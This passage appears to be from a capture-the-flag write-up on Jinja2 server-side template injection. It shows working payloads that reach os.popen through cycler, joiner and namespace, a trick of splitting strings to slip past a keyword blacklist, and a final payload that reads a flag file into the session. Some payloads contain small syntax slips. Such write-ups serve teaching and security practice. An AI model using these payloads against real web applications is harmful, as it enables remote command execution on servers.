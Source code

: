 I’ll be using another payload later because of the length limit issue, This is how I originally started the challenge. They’ll be in use for the next challenge.

```py
cycler.__init__.__globals__.os.popen('id').read()
joiner.__init__.__globals__.os.popen('id').read()
namespace.__init__.__globals__.os.popen('id').read()
```

I’ll continue with the first one and to make it easier to deal with blacklisted words and also the count of dots. I’ll change it to this format

```py
cycler['__init__']['__globals__']['os']['popen']('id')['read']()
```

First, i tried to use `[::-1]` to reverse the string, then i remembered that digits were filtered. we also can't use `+` to concatenate the strings as it was filtered

I tried to use format string with int() but ended up failing. - Completely overthinking it

```python
>>> Template("My name is {{cycler['__tini__'[::-1]]['__slabolg__'[::-1]].os.popen('id').read()}}").render()
'My name is uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floopy),27(sudo),29(audio),30(dip),142(kaboxer)\n'
```

So, the idea here is pretty simple and basically we need to us an empty space between the blacklisted strings.

```py
cycler['__in' 'it__']['__glo' 'bals__']['os']['popen']('id')['rea' 'd']()
```

```python
>>> Template("My name is {{cycler[r['__in' 'it__']['__glo' 'bals__'].os.popen('id').read()}}").render()
'My name is uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floopy),27(sudo),29(audio),30(dip),142(kaboxer)\n'
```

At this point, we’re pretty much over.

```py
{%if session.update({'f':cycler['__in' 'it__']['__glo' 'bals__']['os']['popen']('tail /flag')['re' 'ad']()}{%endif%}
```

```shell
$ python3 check_filterz.py
input: {%if session.update({'f':cycler['__in' 'it__']['__glo' 'bals__']['os']['popen']('tail /flag')['re' 'ad']()}{%endif%}
[.] 1
[:] 1
[/] 1
[%] 3
[len] 116
```
